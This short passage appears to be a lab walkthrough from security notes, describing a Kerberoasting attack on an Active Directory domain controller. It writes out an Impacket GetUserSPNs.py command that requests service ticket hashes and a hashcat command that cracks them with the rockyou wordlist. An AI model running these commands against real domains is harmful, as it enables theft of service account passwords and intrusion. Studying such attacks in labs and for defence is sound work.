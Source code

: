 # V. Kerberoasting Walkthrough

All we need for this attack is our Kali machine and DC machine as it is our KDC (Key Distribution Centre).

Open the terminal and use the following command to grab the hash `python GetUserSPNs.py <DOMAIN/username:password> -dc-ip <ip of DC> -request` :

![Uploading Kerberoasting_1.png…]()

Next save the hash into a text file (i.e krb.txt)

Finally crack the hash using hashcat.

`hashcat -m 13100 krb.txt /usr/share/wordlists/rockyou.txt`
